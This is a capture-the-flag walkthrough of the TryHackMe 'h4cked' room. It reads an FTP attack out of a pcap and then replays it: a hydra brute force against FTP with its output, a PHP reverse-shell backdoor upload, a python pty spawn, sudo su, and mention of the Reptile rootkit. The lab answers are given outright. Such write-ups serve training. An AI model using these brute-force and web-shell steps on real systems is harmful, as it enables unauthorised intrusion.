 ```yaml
---
layout: post
title: Walkthrough - h4cked
published: true
---
```


Find out what happened by analysing a .pcap file and hack your way back into the machine

[https://tryhackme.com/room/h4cked](https://tryhackme.com/room/h4cked)

* * *

## It seems like our machine got hacked by an anonymous threat actor. However, we are lucky to have a .pcap file from the attack. Can you determine what happened? Download the .pcap file and use Wireshark to view it.

- Download pcap file.

* * *

## The attacker is trying to log into a specific service. What service is this?

```shell
220 Hello FTP World!
USER jenny
331 Please specify the password.
PASS 111111
530 Login incorrect.
USER jenny
331 Please specify the password.
PASS password123
230 Login successful.
```

* * *

## There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?

- hydra

* * *

## The attacker is trying to log on with a specific username. What is the username?

- jenny

* * *

## What is the user's password?

- password123

* * *

## What is the current FTP working directory after the attacker logged in?

- /var/www/html

* * *

## The attacker uploaded a backdoor. What is the backdoor's filename?

```shell
220 Hello FTP World!
USER jenny
331 Please specify the password.
PASS password123
230 Login successful.
SYST
215 UNIX Type: L8
PWD
257 "/var/www/html" is the current directory
PORT 192,168,0,147,225,49
200 PORT command successful. Consider using PASV.
LIST -la
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,0,147,196,163
200 PORT command successful. Consider using PASV.
STOR shell.php
150 Ok to send data.
226 Transfer complete.
SITE CHMOD 777 shell.php
200 SITE CHMOD command ok.
QUIT
221 Goodbye.
```

* * *

## The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?

- [http://pentestmonkey.net/tools/php-reverse-shell](http://pentestmonkey.net/tools/php-reverse-shell)

* * *

## Which command did the attacker manually execute after getting a reverse shell? What is the computer's hostname?

- whoami & wir3

* * *

## Which command did the attacker execute to spawn a new TTY shell?

- python3 -c 'import pty; pty.spawn("/bin/bash")'

* * *

## Which command was executed to gain a root shell?

-  sudo su

* * *

## The attacker downloaded something from GitHub. What is the name of the GitHub project?

- reptile

* * *

## The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

- rootkit

* * *

## The attacker has changed the user's password! Can you replicate the attacker's steps and read the flag.txt? The flag is located in the /root/Reptile directory. Remember, you can always look back at the .pcap file if necessary. Good luck!

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Chill-Hack]
└─$ hydra -l jenny -P /usr/share/seclists/Passwords/rockyou.txt 10.10.63.85 ftp               
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-26 13:40:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.63.85:21/
[21][ftp] host: 10.10.63.85   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-26 13:41:22
```

* * *

## Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.
Change the necessary values inside the web shell and upload it to the webserver

-

* * *

## Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.

-

* * *

## Become root!

- Follow steps as attacker did

* * *

## Read the flag.txt file inside the Reptile directory

- cat flag.txt

* * * 